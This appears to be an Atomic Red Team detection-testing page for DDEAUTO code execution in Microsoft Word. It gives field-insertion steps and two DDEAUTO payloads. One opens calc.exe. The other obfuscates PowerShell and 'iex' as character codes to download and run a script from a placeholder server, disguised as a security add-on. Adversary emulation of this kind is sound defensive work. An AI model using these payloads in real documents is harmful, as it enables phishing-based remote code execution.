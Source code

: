 ## Atomic Tests

- [Atomic Test #1 - DDEAUTO](#atomic-test-1---ddeauto)

<br/>

## Atomic Test #1 - DDEAUTO

TrustedSec - Unicorn - https://github.com/trustedsec/unicorn

SensePost DDEAUTO - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Word VBA Macro

[Dragon's Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)

**Supported Platforms:** Windows

#### Run it with these steps!

1. Open Word

2. Insert tab -> Quick Parts -> Field

3. Choose = (Formula) and click ok.

4. Once the field is inserted, you should now see "!Unexpected End of Formula"

5. Right-click the Field, choose "Toggle Field Codes"

6. Paste in the code from Unicorn or SensePost

7. Save the Word document.

9. DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

10. DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\{ QUOTE 87 105 110 100 111 119
    115 80 111 119 101 114 83 104 101 108 108 }\\v1.0\\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 }
    -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http://<server>/download.ps1');
    # " "Microsoft Document Security Add-On"

<br/>
